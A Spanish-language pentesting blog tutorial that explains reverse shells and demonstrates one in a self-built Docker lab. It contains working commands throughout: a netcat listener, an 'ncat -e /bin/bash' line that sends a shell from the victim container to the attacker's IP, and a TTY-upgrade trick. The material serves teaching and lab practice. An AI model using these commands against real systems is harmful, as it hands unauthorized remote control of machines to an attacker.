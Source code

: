 ```yaml
---
layout: single
title: Reverse Shell
date: 2025-02-27
classes: wide
header:
  teaser: /assets/images/slea32.png
categories:
  - Exploits
  - Shells
tags:
    - Reverse Shell
    - Remote Access
    - Network Attack
    - Command Execution
    - Shell Access
    - Pentesting
    - Hacking
    - Payload
---
```

Es un tipo de conexión remota que permite a un acatacante tomar el control de un sistema objetivo, pero de una manera un poco diferente a lo de una shell tradicional. En lugar que el atacante se conecte directamente al sistema objetivo (como una **Bind Shell**), el sistema objetivo unicia la conexión hacia el atacante, y es el atacante quien escucha esa conexión para tomar el control.

### Cómo funciona una Reverse Shell?:
El concepto detrás de la **Reverse Shell** es que un atacante configura un servidor (escuchando en un puerto determinado) y el sistema comprometido **se conecta de vuelta** al atacante, estableciendo la shel interactiva.
1. **El atacante** configura configura un servidor (escuchando en puerto en específico) en su máquina.
2. **El objetivo (víctima)** ejecuta el comando malicioso (por ejemplo, una vulnerabilidad explotada en una aplicación), lo que hace que el sistema comprometido inicie la conexión hacia el servidor del atacante.
3. una vez establecida la conexión, el atacante puede ejecutar **comandos remotos** en la máquina comprometido a través de la shell que se ha abierto.

---

### Reverse Shell en entorno controlado
Creamos un `Dockerfile`
```Dockerfile
FROM ubuntu:latest

ENV DEBIAN_FRONTEND noninteractive

RUN apt update && apt install -y apache2 \
  php

EXPOSE 80

ENTRYPOINT service apache2 start && /bin/bash
```
### máquina víctima
```bash
docker build -t my_image .
docker run -dit -p 80:80 --name myContainer my_image
docker exec -it myContainer bash
```
**Instalamos netcat en el contenedor**
```bash
apt install ncat
```

**Ponemos la IP de la maquina del contenedor la sacamos con nuestra máquina**:
```bash
ip addr | grep "docker0"
```

**Salida**
```bash
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
6: vethc67c219@if2: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default
``` 

**Desde el contenedor nos ponemos en escucha**:
```bash
ncat -e /bin/bash 172.17.0.1 443
```


### máquina atacante
**Abrimos una nueva ventana como `root`** nos ponemos en escucha:
```bash
nc -nlvp 443
```
`-n` para que no me aplique resolucion DNS
`-l` es escuchar (listen)
`-v` modo detallado (verbose)
`-p` especifica el puerto 

**Salida**
```bash
Connection from 172.17.0.2:53782
```
*Estamos conectados*

**Probamos haciendo**:
```bash
whoami
root
hostname -I
172.17.0.2
```

**Podemos verlo mejor la terminal hacemos un**:
```bash
script /dev/null -c bash
```


